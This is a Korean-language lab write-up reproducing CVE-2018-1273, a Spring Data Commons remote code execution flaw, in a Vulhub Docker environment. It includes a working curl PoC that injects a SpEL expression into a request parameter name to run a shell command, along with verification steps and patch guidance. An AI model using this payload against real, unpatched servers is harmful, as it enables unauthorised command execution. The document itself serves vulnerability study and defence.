

# Spring Data Commons 원격 코드 실행(RCE) 취약점 (CVE-2018-1273)

> 화이트햇 스쿨 4기 20반 [안세원(@lrycro)](https://github.com/lrycro)

<br/>

## **목차**

1. [취약점 요약](#취약점-요약)
2. [환경 구성](#환경-구성)
3. [취약 조건](#취약-조건)
4. [재현 절차 및 PoC 코드](#재현-절차-및-PoC-코드)
5. [실행 결과](#실행-결과)
6. [대응 방안](#대응-방안)
7. [참고자료](#참고자료)

<br/>

## **취약점 요약**

- **CVE 번호**: CVE-2018-1273
- **취약점 명칭**: Spring Data Commons Remote Code Execution (RCE)
- **개요**: Spring Data Commons 라이브러리(`1.13~1.13.10`, `2.0~2.0.5` 버전)에서 웹 요청 매개변수를 자바 객체에 바인딩할 때, 사용자의 입력값이 SpEL(Spring Expression Language)로 파싱되면서 발생하는 취약점이다. 공격자는 HTTP POST 요청의 파라미터 키(Key) 자리에 조작된 SpEL 표현식을 주입하여 대상 서버 권한으로 임의의 시스템 명령을 실행(RCE)할 수 있다.

<br/>

## **환경 구성**

1. 참고자료 1번을 참고하여 `docker-compose.yml` 파일 작성

    ```
    services:
    spring:
      image: vulhub/spring-data-commons:2.0.5
      ports:
        - "8080:8080"
    ```
2. 취약 환경 컨테이너 구동 (해당 레포를 clone 받았다면 여기서부터 터미널에 명령어를 입력하여 실행하면 됨)

    ```
    docker compose up -d
    ```

3. 서비스 정상 기동 여부 확인 (내장 톰캣 및 스프링 초기 부팅 대기 후 수행)
    ```
    sleep 15
    ```
    ```
    curl -I http://localhost:8080/users
    ```

<br/>

## **취약 조건**

1. **소프트웨어 버전**: Spring Data Commons `1.13~1.13.10` 또는 `2.0~2.0.5` 버전을 사용 중인 환경

2. **기능 활성화**: HTTP 요청 파라미터를 엔티티 객체나 Map 구조로 자동으로 바인딩해 주는 파서 및 컨트롤러 로직이 열려 있어야 한다. 본 환경은 `/users` 웹 엔드포인트가 이에 해당한다.

<br/>

## **재현 절차 및 PoC 코드**

### **[Step 1] 테스트용 임시 파일 생성 페이로드 전송 (PoC)**

터미널에서 즉시 실행 가능한 형태의 `curl` 명령어로, 서버가 파라미터 변수명 내부의 SpEL 문법을 해석하여 서버 내부 `/tmp/success` 파일을 생성하게 유도한다.

```
curl -X POST -d "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')]=test" http://localhost:8080/users
```

### **[Step 2] 최종 임의 명령어 실행 여부 결과 조회**

컨테이너 내부의 `/tmp/` 경로를 확인하여, 주입된 페이로드에 의해 파일이 정상적으로 생성되었는지 확인한다.

```
docker compose exec spring ls -l /tmp/
```

<br/>

## **실행 결과**

### **500 Internal Server Error**
PoC 페이로드 전송 시 서버는 `500 Internal Server Error (Invalid property 'username' ...)` 응답을 반환한다. 이는 **취약점 공격이 성공했음을 의미하는 지표**이다.

1. Spring Parser가 파라미터 키 값에 포함된 SpEL 문법을 정상적으로 해석하여 `Runtime.getRuntime().exec('touch ...')` 명령을 서버 권한으로 먼저 실행한다.

2. 명령어 실행이 완료된 후, Spring 프레임워크는 원래의 비즈니스 로직에 따라 요청 데이터를 객체 변수(`username`)에 바인딩하려고 시도한다.

3. 하지만 변수명 위치가 일반 문자열이 아닌 SpEL 실행 코드로 구성되어 있어, 올바른 데이터 바인딩 타깃 구조를 참조하지 못하고 최종 단계에서 런타임 예외를 발생시키며 500 에러를 반환한다.

결론적으로 **전반부에서 RCE 명령어는 이미 성공적으로 수행되었으며, 후반부의 데이터 바인딩 로직에서 예외가 발생한 상황**이므로, 최종 검증 시 지정한 파일이 정상적으로 생성된 것을 확인할 수 있다.

### **재현 성공 스크린샷**



<br/>

## **대응 방안**

1. **보안 패치 및 업그레이드**: 취약점이 수정된 상위 패치 안정 버전인 Spring Data Commons `1.13.11`, `2.0.6` 이상 혹은 최신 상용 제품 라인업으로 업그레이드를 권고한다.

2. **보안 메커니즘 변경 내용**: 공식 패치 이후 버전에서는 내부 표현식 파싱용 컨텍스트 빌더가 외부 임의 자바 클래스 구조(Runtime 등)를 직접 조작하거나 메서드를 호출할 수 없도록 엄격히 가로막는 `SimpleEvaluationContext` 프로토콜을 사용하게끔 메커니즘이 변경되어 취약점을 방어한다.

<br/>

## **참고자료**
1. [Vulhub GitHub CVE-2018-1273](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2018-1273)
2. [NVD - CVE-2018-1273](https://nvd.nist.gov/vuln/detail/cve-2018-1273)
3. [Spring Security Advisory - CVE-2018-1273](https://spring.io/security/cve-2018-1273)
